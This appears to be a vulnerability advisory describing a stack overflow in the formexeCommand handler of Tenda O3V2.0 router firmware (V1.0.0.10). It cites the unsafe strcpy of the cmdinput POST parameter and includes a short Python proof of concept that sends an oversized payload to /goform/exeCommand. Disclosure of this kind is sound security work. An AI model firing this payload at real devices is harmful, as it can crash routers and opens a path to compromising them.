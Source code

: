 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2832.html

## Affected version

O3V2.0 V1.0.0.10(2478)

## Vulnerability details

In the O3V2.0 V1.0.0.10(2478) firmware has a stack overflow vulnerability in the `formexeCommand` function. The `src` variable receives the `cmdinput` parameter from a POST request. However, since the user can control the input of `cmdinput`, the statement `strcpy(s + 16, src);` can cause a buffer overflow. The user-provided  `cmdinput` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240714213615842](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714213615842.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/exeCommand"
payload = b"a"*2000

data = {"cmdinput": payload}
response = requests.post(url, data=data)
```

![image-20240714213455164](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714213455164.png)
